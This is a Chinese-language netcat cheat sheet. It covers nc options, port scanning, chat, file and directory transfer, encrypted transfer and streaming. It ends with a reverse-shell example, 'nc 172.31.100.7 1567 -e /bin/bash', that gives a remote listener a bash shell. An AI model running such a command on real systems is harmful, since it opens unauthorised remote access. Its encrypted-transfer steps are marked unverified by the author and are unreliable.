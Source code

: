 # NETCAT 速查
netcat是网络工具中的瑞士军刀，它能通过TCP和UDP在网络中读写数据。netcat所做的就是在两台电脑之间建立链接并返回两个数据流，在这之后所能做的事就看你的想像力了。你能建立一个服务器，传输文件，与朋友聊天，传输流媒体或者用它作为其它协议的独立客户端。

## help
```
connect to somewhere:	nc [-options] hostname port[s] [ports] ... 
listen for inbound:	nc -l -p port [-options] [hostname] [port]
options:
	-c shell commands	as `-e'; use /bin/sh to exec [dangerous!!]
	-e filename		program to exec after connect [dangerous!!]
	-b			allow broadcasts
	-g gateway		source-routing hop point[s], up to 8
	-G num			source-routing pointer: 4, 8, 12, ...
	-h			this cruft
	-i secs			delay interval for lines sent, ports scanned
        -k                      set keepalive option on socket
	-l			listen mode, for inbound connects
	-n			numeric-only IP addresses, no DNS
	-o file			hex dump of traffic
	-p port			local port number
	-r			randomize local and remote ports
	-q secs			quit after EOF on stdin and delay of secs
	-s addr			local source address
	-T tos			set Type Of Service
	-t			answer TELNET negotiation
	-u			UDP mode
	-v			verbose [use twice to be more verbose]
	-w secs			timeout for connects and final net reads
	-C			Send CRLF as line-ending
	-z			zero-I/O mode [used for scanning]
port numbers can be individual or ranges: lo-hi [inclusive];
hyphens in port names must be backslash escaped (e.g. 'ftp\-data').

```
## 端口扫描

```nc -z -v -n some_ip portlist -w timeout_second```

```nc -z -v -n 10.10.10.129 1-100 -w 2```

注意：
- -z 参数告诉netcat使用0 IO,连接成功后立即关闭连接， 不进行数据交换
- -n 参数告诉netcat 不要使用DNS反向查询IP地址的域名
- -w 参数限制连接尝试时间


## 聊天服务器
server端
```nc -l -p someport```

注意：
- -p只能用于指定本地端口号。
- -l表示监听

client端：
```nc -n server_ip server_port```

client上发的任何字符都会到服务器上。反向不行
## 文件传输

server：
```nc -l -p some_port < src_file```

client：
```nc -n server_ip server_port > dst_file```

server和client角色根据需要自定义。
## 目录传输

server:
```tar -cvf - dir_name |nc -l -p some_port```

client:
```nc -n server_ip server_port | tar -xvf -```

注意：
- ```-```表示标准IO

### 压缩传输

server：
```tar -cvf - dir_name | bzip2 -z |nc -l   some_port```
client:
```nc -n server_ip server_port | bzip2 -d|tar -xvf -```


### 加密传输

#### 初始化
建立密钥
```openssl genrsa -out rsa.key 2048```

提取公钥：
```openssl rsa -in rsa.key -pubout -out public.key```

#### 传送密钥
server：
```nc -l  some_port < public.key```

client：
```nc -n server_ip server_port > public.key```

#### 加密传输
（未验证）
server(接收数据)：
```nc -l   some_port  | openssl enc -d -aes256 -in - -out decrypted.txt```

client(发送数据)
```openssl enc -e -aes256 -in data |nc -n server_ip server_port  ```

## 流媒体

server
```cat video.avi |nc -l -p some_port```

client
```nc server_ip server_port | mplayer -vo x11 -cache 3000 -```

## 反向shell

server:
```$nc -l 1567```
在客户端，简单地告诉netcat在连接完成后，执行shell。

客户端
```$nc 172.31.100.7 1567 -e /bin/bash```